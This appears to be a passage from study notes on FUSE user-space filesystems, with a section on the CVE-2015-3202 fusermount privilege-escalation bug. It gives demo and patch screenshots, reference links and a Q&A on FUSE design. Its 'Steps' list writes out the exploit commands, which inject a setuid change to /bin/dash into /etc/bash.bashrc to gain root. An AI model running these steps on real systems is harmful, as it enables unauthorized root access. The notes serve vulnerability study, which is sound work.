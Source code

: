 * Steps
    * printf “chmod 4755 /bin/dash” > /tmp/exploit && chmod 755 /tmp/exploit
    * mkdir -p “/tmp/exploit||/tmp/exploit”
    * LIBMOUNT_MTAB=/etc/bash.bashrc _FUSE_COMMFD=0 fusermount “/tmp/exploit||/tmp/exploit”
    * cat /etc/bash.bashrc
    * ssh root@${target_ip}
    * sh -c “id”

* Demo

    ![](https://i.imgur.com/1m5hnCC.png)

    ![](https://i.imgur.com/w8piPaA.png)

    ![](https://i.imgur.com/nx7ZBEa.png)

* Patch

    ![](https://i.imgur.com/AEGZdF0.png)


## Reference
* Introduction
    * [wiki](https://zh.wikipedia.org/wiki/FUSE)
    * [用戶態文件系統框架FUSE的介紹及示例](https://kknews.cc/zh-tw/code/vvja6ry.html)
    * [Fuse流程分析](https://www.itdaan.com/tw/ef1c53dd4c47)
* Usage
    * [Linux FUSE（使用者態檔案系統）的使用：用libfuse建立FUSE檔案系統](https://www.itread01.com/hkpfiiq.html?fbclid=IwAR0Iw8Z52fJ6x_depjwChojS_iDfXPBj59jXkUSf0ohhfryKGDGjkqTUNeo)
* Paper
    * [slides](https://www.usenix.org/sites/default/files/conference/protected-files/fast17_slides_vangoor.pdf)
    * [To FUSE or Not to FUSE: Performance of
User-Space File Systems](http://libfuse.github.io/doxygen/fast17-vangoor.pdf)
    * [When eBPF Meets FUSE](https://events19.linuxfoundation.org/wp-content/uploads/2017/11/When-eBPF-Meets-FUSE-Improving-Performance-of-User-File-Systems-Ashish-Bijlani-Georgia-Tech.pdf)
* CVE-2015-3202
    * [FUSE CVE-2015-3202本地root權限提升漏洞及修復建議](https://www.secpulse.com/archives/32339.html)
    * [debian source code](https://sources.debian.org/src/fuse/2.9.3-15/util/mount_util.c/?hl=99#L99)
    * [exploitdb](https://github.com/offensive-security/exploitdb/blob/master/exploits/linux/local/37089.txt)
    * [demo exploit for CVE-2015-3202 on Ubuntu](https://gist.github.com/taviso/ecb70eb12d461dd85cba)
    * [Ubuntu Debian FUSE Privilege Escalation CVE-2015-3202](https://www.youtube.com/watch?v=DXtB_zn0AM8)

## Q&A
1. FUSE daemon 會怎麼polling requests? /dev/fuse 怎麼 wake up daemon?
2. Fuse 會浪費多層的filesystem interface，有帶來什麼好處?
    * 上層(user-space)可能有更多發展，network的應用或加密的應用
    * 下層(kernel-space)確實會浪費不少資源，但是可以方便直接在 userspace 開發 filesystem，kernel 也比較不會被汙染
    * 在 [When eBPF Meets FUSE - Improving the performance of user file systems](https://events19.linuxfoundation.org/wp-content/uploads/2017/11/When-eBPF-Meets-FUSE-Improving-Performance-of-User-File-Systems-Ashish-Bijlani-Georgia-Tech.pdf) 有做比較
    
        ![](https://i.imgur.com/KfTc9yO.png =x250)
